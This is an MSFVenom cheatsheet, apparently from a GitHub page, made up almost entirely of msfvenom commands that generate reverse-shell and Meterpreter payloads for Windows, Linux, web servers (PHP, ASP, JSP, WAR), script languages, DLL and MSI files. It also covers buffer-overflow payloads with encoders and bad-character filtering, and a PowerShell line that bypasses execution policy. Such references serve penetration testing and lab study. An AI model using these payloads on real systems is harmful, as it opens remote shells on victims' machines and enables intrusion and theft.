 # MSFVenom Cheatsheet
```default
      o O o                   
              o O             
                 o            
 |^^^^^^^^^^^^^^|l___         
 |    PAYLOAD     |""\___,    
 |________________|__|)__|    
  (@)(@)"""**|(@)(@)**|(@)    
   __  __  _____ ________      __                        
  |  \/  |/ ____|  ____\ \    / /                        
  | \  / | (___ | |__   \ \  / /__ _ __   ___  _ __ ___  
  | |\/| |\___ \|  __|   \ \/ / _ \ '_ \ / _ \| '_ ` _ \ 
  | |  | |____) | |       \  /  __/ | | | (_) | | | | | |
  |_|  |_|_____/|_|        \/ \___|_| |_|\___/|_| |_| |_|
```

The payloads with "(no stages)" can be received with a regular netcat listener. The meterpreter or staged payloads require Metasploit's "multi/handler" module.

## Windows (no stages)
```bash
# Win x86
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe

# Win x64
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

## Windows (meterpreter)

```bash
# Win x86 staged
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe

# Win x64 staged
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe

# Win x86 stageless
msfvenom -p windows/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe

# Win x64 stageless
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

## Linux (no stages)
```bash
# Linux x86
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf

# Linux x64
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

## Linux (meterpreter)
```bash
# Linux x86 staged
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf

# Linux x64 staged
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf

# Linux x86 stageless
msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf

# Linux x64 stageless
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

## Web Reverse Shells

```bash
# PHP
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php

# ASP
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp

# JSP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp

# WAR
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
```

## Script Reverse Shells

```bash
# Python
# you will have to strip off the python command in the resulting file
msfvenom -p cmd/unix/reverse_python LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.py

# Bash
msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh

# Perl
msfvenom -p cmd/unix/reverse_perl LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.pl

# Powershell
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.21 LPORT=443 -f psh -o psshell.ps1
#cmd> powershell.exe -ExecutionPolicy Bypass -File psshell.ps1
```

## DLL
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f dll -o hackedlib.dll
```

## MSI
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f msi -o reverse.msi
```

## Binary exploitation

```bash
# find a suitable payload
msfvenom -l payloads

# find suitable encoders
msfvenom -l encoders
```

Basic BOF Example:
```bash
# generate payload
# at the end there are the badchars
# use EXITFUNC=thread after LPORT=4444 if you want the application to resume afterwards
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f py –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```

Manage exit behavior with exit function:
```bash
# Thread exit function (allow process to continue after exploit)
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f py –e x86/shikata_ga_nai -b "\x00" EXITFUNC=thread

# Process exit function (use when using multi/handler or when )
EXITFUNC=process

# structured exception handler
EXITFUNC=seh

# None
EXITFUNC=none
```

Pop calc:
```bash
msfvenom -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f c
```

## References

* https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom
* https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/
* https://www.offensive-security.com/metasploit-unleashed/msfvenom/